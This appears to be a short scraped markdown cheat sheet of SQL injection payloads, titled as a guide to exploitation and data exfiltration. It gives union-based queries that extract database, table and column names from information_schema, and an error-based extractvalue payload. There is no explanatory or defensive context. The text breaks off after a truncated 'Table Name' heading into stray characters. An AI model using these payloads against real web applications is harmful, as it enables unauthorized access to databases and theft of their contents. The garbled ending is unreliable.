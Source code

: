 # Exploitation and Data Exfileration

 # UNION BASED

Database Name
```
UNION SELECT 1,database(),3,4,5,6,7,8,9,10,11
```
Table Name
```
UNION SELECT 1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),3,4,5,6,7,8,9,10,11
```

Column name
```
UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='carts' limit 1,1),3,4,5,6,7,8,9,10,11

UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1),3,4,5,6,7,8,9,10,11
```

# ERROR BASED

Database Name
```
extractvalue(rand(),concat(1,(database())))
```
Table Name
]\

+
+











bnj
